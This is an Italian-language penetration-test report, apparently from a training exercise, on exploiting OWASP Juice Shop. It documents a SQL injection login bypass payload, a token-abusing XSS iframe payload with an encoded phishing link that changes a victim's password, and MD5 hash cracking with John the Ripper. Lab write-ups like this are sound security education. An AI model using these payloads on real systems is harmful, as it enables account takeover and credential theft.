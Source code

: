 ```yaml
---
title: "Juice Shop Exploitation"
author: ""
date: "2025-07-06"
toc: true
toc-depth: 2
---
```


# 1. SQL injection
## Introduzione
Durante la fase di information gathering, è stata individuata la possibilità per l'utente di inviare input arbitrari tramite la pagina di `login`. Gli input utente vengono trasmessi al server backend.

L'analisi del comportamento del backend ha rivelato che il server, al momento del login, costruisce dinamicamente una query SQL tramite concatenazione diretta dei parametri `email` e `password` forniti dall'utente. Questo comportamento introduce una potenziale vulnerabilità di SQL Injection. In questo caso, l'assenza di `prepared statements` o `escaped input` rende la query suscettibile a manipolazione da parte di un attaccante.

Sfruttando la vulnerabilità e l'assenza di controlli, un attaccante può costruire un payload malevolo per bypassare la verifica della password ed effettuare il login su un account esistente (tipicamente l'amministratore), conoscendone solo l'`indirizzo email`.

## Riproducibilità
1. Andare nella pagina di login del sito.
2. Nel campo `email` usare una delle email trovate tramite le review dei prodotto durante l'information gathering. Un email di esempio è: `admin@juice-sh.op`.
3. Nel campo email quindi scrivere l'email di admin oppure un email di un utente a scelta seguito da 2 trattini:
```sql
admin@juice-sh.op' --
```
4. Questo codice esegue una query SQL concatenata che permette di ignorare tutto il codice SQL che c'è dopo `--`:
```sql
SELECT * FROM users WHERE email = 'admin@juice-sh.op' -- AND PASSWORD = '' AND deletedAt IS NULL
```
Tutto il codice dopo `--` quindi `AND PASSWORD ...` viene ignorato. Controlla solo se l'email è valido.

5. Il campo password può essere riempito con una qualsiasi password. 
5. Dopo aver eseguito il login, il server restituisce l'accesso all'account da admin.
6. Si può ripetere tutte queste operazioni per tutti gli altri utenti registrati.

## Prova dell'attacco
![SQL injection login](../immagini/exploitation/sql_injection_login_request.png)

![SQL injection success](../immagini/exploitation/sql_injection_login_success.png)

# 2. XSS Injection
## Introduzione
### 1. Endpoint di cambio password non autenticato
L'applicazione espone un endpoint per il cambio password attraverso la seguente richiesta GET:

`GET /rest/user/change-password?current=oldPass&new=newPass&repeat=newPass`

- Il parametro `current` (password attuale) **non è obbligatorio**: è possibile inviare la richiesta omettendo tale parametro.
- Il server **non esegue alcun controllo server-side** sull'effettiva validità o presenza della password attuale.
- Questo comporta che un attaccante autenticato (o con sessione valida) potrebbe modificare arbitrariamente la propria password (o potenzialmente quella di altri utenti, in presenza di ulteriori vulnerabilità).

### 2. Input non sanitizzato nella funzionalità di ricerca
La funzionalità di ricerca accetta input utente non filtrato, ed è stato rilevato tramite VA (Vulnerability Assessment) che è vulnerabile ad **attacchi di tipo Cross-Site Scripting (XSS)**.

- L’input inserito nel campo di ricerca viene riflesso nella risposta HTML senza opportune misure di escaping o sanitizzazione.
- È possibile iniettare ed eseguire codice JavaScript arbitrario lato client.

**Esempio di payload XSS**
```html
<iframe src="javascript:xmlHttpRequest = new XMLHttpRequest();
   xmlHttpRequest.open('GET', 'http://localhost:3000/rest/user/change-password?
   new=hackedPassword123&amp;repeat=hackedPassword123');
   xmlHttpRequest.setRequestHeader('Authorization',
   `Bearer=${localStorage.getItem('token')}`);
   xmlHttpRequest.send();"></iframe>
```

Questo frame contenente del codice Javascript malevole, viene eseguito andando a creare una XMLHttpRequest che permette di effettuare richieste al server autenticate usando il token utente valido che è stato memorizzato nel browser.

In particolare, è possibile creare un link malevolo da inviare al cliente che, se venisse aperto, porterebbe l'utente a modificare la propria password in modo inconsapevole. Si è scoperto che la modifica della password, inoltre, non restituisce nessun messaggio effettivo dal server che l'utente normale sia in grado di osservare e che la sessione corrente dell'utente rimane valida anche dopo la modifica della password.

**Esempio di link malevolo**
```html
http://127.0.0.1:3000/#/search?q=%3Ciframe%20src%3D%22javascript:xmlHttpRequest%20%3D%20new%20XMLHttpRequest();
%20%20%20%20xmlHttpRequest.open
('GET',%20'http:%2F%2Flocalhost:3000%2Frest%2Fuser%2Fchange-password%3Fnew%3DhackedPassword123%26amp;repeat%3DhackedPassword123');
%20%20%20%20xmlHttpRequest.setRequestHeader('Authorization',
%60Bearer%3D$%7BlocalStorage.getItem('token')%7D%60);
%20%20%20%20xmlHttpRequest.send();%22%3E%3C%2Fiframe%3E
```

## Riproducibilità
1. Inviare il link mavevolo all'utente da attaccare cercando di invogliarlo a spingere il link.
2. L'utente esegue il link malevolo ma non si accorge che la sua password è stata modificata.
3. Eseguire l'accesso con la email dell'utente e la sua password.

## Prova dell'attacco
![Esecuzione del link con js script](../immagini/exploitation/xss_payload_attack.png)

![Esecuzione dello scripting con successo](../immagini/exploitation/xss_payload_attack_success.png)

# 3. Hash delle password con algoritmo vulnerabile
## Introduzione
Dall'information gathering si è scoperto che il server manda al client durante il logout alcune informazioni riguardante l'utente stesso e, tra le altre cose, l'hash della password utente.

Queste informazioni sono state usate nella fase di vulnerability assessment è stato scoperto che l'hash della password usava MD5 come algoritmo di hashing, il che lo rende vulnerabile ad attacchi di pre-immagine e collisione, e inoltre, è stato rilevato che l'algoritmo non utilizza un salt per proteggere le password, il che significa che due utenti con la stessa password generano lo stesso hash. Questo lo rende particolarmente vulnerabile ad attacchi di tipo brute-force e rainbow table, vulnerabilità ulteriormente aggravata dalla rapidità computazionale di MD5.

## Riproducibilità
1. Eseguire l'accesso con l'account di interesse.
2. Eseguire il logout con l'account di interesse, usando Burp suite oppure qualsiasi altro tool che permetta di intercettare la risposta del server.
3. Salvarsi l'hash della password che il server manda al client durante la fase di logout.
4. Creare un file `password.txt` in cui inserire la password nel formato:
```sh
nomeAccount:hashPassword
```
5. Creare un file `hash.txt` o scaricare un file contente riga per riga, le password più comuni utilizzate normalmente, come nell'esempio sottostante.

![File con hash e password comuni](../immagini/exploitation/john_1.png)
6. Eseguire il comando:
```sh
john --format=raw-md5 --wordlist=password.txt hash.txt
```
Che eseguirà un attacco brute-force sul file `hash.txt` usando l'algoritmo MD5 tramite il file di password chiamato `password.txt`.
7. Eseguire il comando:
```sh
john --show --format=raw-md5 hash.txt
```
Che mostrerà le password in chiaro insieme al corrispettivo nome utente o email associato.

## Prova dell'attacco
![Hash craccato](../immagini/exploitation/john_2.png)